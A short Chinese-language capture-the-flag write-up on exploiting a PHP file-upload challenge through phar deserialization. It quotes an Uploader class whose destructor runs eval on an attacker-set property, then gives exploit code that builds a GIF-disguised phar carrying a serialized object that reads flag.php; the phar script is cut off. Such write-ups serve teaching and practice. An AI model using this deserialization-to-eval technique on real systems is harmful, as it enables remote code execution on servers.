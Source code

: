 可以拿到Upload.php和home.php的源码

找危险函数

```php
class Uploader{
    public $Filename;
	public $cmd;
	public $token;
	...
    function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
    ...
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}
```

本来想直接上传flag.php利用``file_get_contents($uploader);``攻击的，但是这里好像读不出来，可能是因为路径问题。。

这里考察的是phar反序列化攻击

构造的对象

```php
<?php
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}

$o = new Uploader();
$o->Filename="test";
$o->cmd="highlight_file('/var/www/html/flag.php');";
$o->token="GXY8576f1181ce29baf95cd9285c214d84d";//上传一个文件来获得
```

生成phar

```php
<?php
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}

$o = new Uploader();
$o->Filename="test";
$o->cmd="highlight_file('/var/www/html/flag.php');";
$o->token="GXY8576f1181ce29baf95cd9285c214d84d";

$phar = new Phar("exp.phar");
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt','test');  //添加要压缩的文件
```